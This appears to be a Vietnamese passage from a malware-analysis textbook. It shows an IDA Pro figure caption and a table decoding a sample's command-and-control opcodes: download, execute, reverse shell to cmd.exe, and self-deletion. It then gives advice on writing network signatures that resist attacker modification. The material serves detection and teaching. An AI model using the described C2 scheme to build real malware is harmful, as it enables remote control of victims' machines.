

*Hình 14.3: Đồ thị hàm phân tích cú pháp gói tin mạng trong IDA Pro, phục vụ việc trích xuất mẫu lệnh C2.*

| Lệnh điều khiển C2 của mã độc | Mã Opcode nhận từ mạng | Hành động mã độc thực thi |
| :--- | :--- | :--- |
| `CMD_DOWNLOAD` | `0x01` | Tải tệp tin thực thi mới từ máy chủ và ghi ra đĩa |
| `CMD_EXECUTE` | `0x02` | Khởi chạy chương trình thông qua `CreateProcess` hoặc `WinExec` |
| `CMD_SHELL` | `0x03` | Tạo reverse shell gắn kết với `cmd.exe` |
| `CMD_TERMINATE` | `0x04` | Xóa dấu vết và tự kết thúc tiến trình |

*Bảng 14.7: Bảng giải mã lệnh điều khiển mạng (Command & Control Protocol Table).*

### 14.5 Góc Nhìn Của Kẻ Tấn Công và Chiến Lược Phòng Ngự Chủ Động

Khi thiết kế một chiến lược chữ ký, việc cố gắng hiểu góc nhìn của kẻ tấn công là rất sáng suốt. Kẻ tấn công đang chơi một trò chơi mèo đuổi chuột liên tục. Ý đồ của chúng là hòa lẫn vào lưu lượng thông thường để tránh bị phát hiện và duy trì các hoạt động đang diễn ra thành công. Giống như bất kỳ nhà phát triển phần mềm nào khác, những kẻ tấn công cũng phải vật lộn để cập nhật phần mềm, để duy trì sự cập nhật và tính tương thích với các hệ thống liên tục thay đổi. Bất kỳ thay đổi nào cần thiết đều nên ở mức tối thiểu, vì những thay đổi lớn có thể đe dọa tính toàn vẹn và ổn định trong hệ thống của chúng.

Như đã thảo luận trước đó, việc sử dụng nhiều chữ ký nhắm vào các phần khác nhau của mã độc sẽ giúp việc phát hiện có khả năng chống chịu tốt hơn trước các sửa đổi của kẻ tấn công. Thông thường, kẻ tấn công sẽ sửa đổi phần mềm của chúng một chút để tránh bị phát hiện bởi một chữ ký cụ thể. Bằng cách tạo ra nhiều chữ ký bắt nguồn từ các khía cạnh khác nhau của giao tiếp, bạn vẫn có thể phát hiện thành công mã độc ngay cả khi kẻ tấn công đã cập nhật một phần mã nguồn.

Dưới đây là ba nguyên tắc kinh nghiệm bổ sung mà bạn có thể sử dụng để tận dụng điểm yếu của kẻ tấn công:

- **Tập trung vào các thành phần của giao thức là một phần của cả hai đầu mút (both end points):** Việc chỉ thay đổi mã phía client hoặc mã phía server bao giờ cũng dễ dàng hơn nhiều so với việc phải thay đổi đồng thời cả hai. Hãy tìm kiếm các phần tử của giao thức sử dụng mã ở cả phía client và server, sau đó tạo một chữ ký dựa trên các phần tử này. Kẻ tấn công sẽ cần phải tốn rất nhiều công sức để biến một signature như vậy thành lỗi thời.
- **Tập trung vào bất kỳ thành phần nào của giao thức được biết là một phần của một khóa (key):** Thông thường, một số thành phần được hardcode của một giao thức được sử dụng làm khóa xác thực. Ví dụ, kẻ tấn công có thể sử dụng một chuỗi User-Agent cụ thể làm khóa xác thực để các yêu cầu dò quét trái phép có thể bị phát hiện (và có thể bị định tuyến đi hướng khác). Để kẻ tấn công vượt qua một signature như vậy, chúng sẽ cần phải thay đổi mã nguồn ở cả hai đầu kết nối.
- **Xác định các thành phần của giao thức không thể nhận thấy ngay trong lưu lượng truy cập:** Đôi khi, hành động đồng thời của nhiều người phòng thủ có thể cản trở việc phát hiện mã độc. Nếu một người phòng thủ khác tạo ra một chữ ký đạt được thành công nhất định trước kẻ tấn công, kẻ tấn công có thể bị buộc phải điều chỉnh mã độc của mình để tránh signature đó. Nếu bạn cũng đang dựa vào chính signature đó, hoặc một signature nhắm vào cùng các khía cạnh trong giao thức truyền thông của kẻ tấn công, sự điều chỉnh của kẻ tấn công cũng sẽ làm ảnh hưởng tới chữ ký của bạn. Để tránh bị vô hiệu hóa bởi phản ứng của kẻ tấn công trước một người phòng thủ khác, hãy cố gắng xác định các khía cạnh của các hoạt động độc hại mà những người phòng thủ khác có thể chưa chú ý đến. Kiến thức thu được từ việc quan sát tỉ mỉ mã độc sẽ giúp bạn phát triển một chữ ký mạnh mẽ và bền vững hơn.